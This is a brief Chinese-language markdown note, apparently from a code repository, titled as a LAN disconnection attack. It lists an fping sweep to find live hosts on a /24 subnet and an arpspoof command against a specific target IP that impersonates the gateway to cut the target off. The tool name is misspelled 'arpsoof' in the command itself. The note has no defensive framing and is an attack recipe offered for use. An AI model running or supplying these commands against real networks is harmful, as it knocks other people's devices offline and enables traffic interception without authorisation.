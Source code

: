 # 局域网断网攻击

>欺骗

1. 查看联网设备数

   ```
   fping -asg 192.168.1.1/24
   ```

2. 攻击

   ```
   arpsoof -i eth0 -t 192.168.1.181 192.168.1.1
   ```

   arpspoof命令
   后面接上与网络有关的-i（interface）
   网卡eth0
   目标-t（target）
   目标IP：192.168.1.181
   目标主机网关192.168.1.1
